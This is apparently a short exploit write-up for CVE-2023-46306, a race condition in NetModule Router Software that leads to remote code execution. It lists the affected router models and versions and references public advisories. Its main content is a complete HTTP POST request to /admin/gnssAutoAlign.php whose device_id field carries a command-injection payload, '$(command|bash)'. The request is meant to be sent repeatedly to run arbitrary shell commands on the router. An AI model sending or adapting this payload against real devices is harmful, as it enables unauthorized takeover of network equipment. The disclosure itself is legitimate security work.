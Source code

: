 ### Affected product and versions
```
NetModule Router Software
NB1601, NB1800, NB1810, NB2800, NB2810, NB3701, NB3800, NB800, NG800
< 4.6.0.106
< 4.8.0.101
```

### Exploit by sending sequentially 
```
POST /admin/gnssAutoAlign.php HTTP/1.1
Host: <rhost>
User-Agent: Mozilla/5.0 (X11; %s race1 x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9, image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 114
device_id=1+$(command|bash)&toggleAlignment=1337
```

### References
* https://pentest.blog/advisory-netmodule-router-software-race-condition-leads-to-remote-code-execution/
* https://nvd.nist.gov/vuln/detail/CVE-2023-46306
* https://github.com/advisories/GHSA-4qww-v3r6-7335

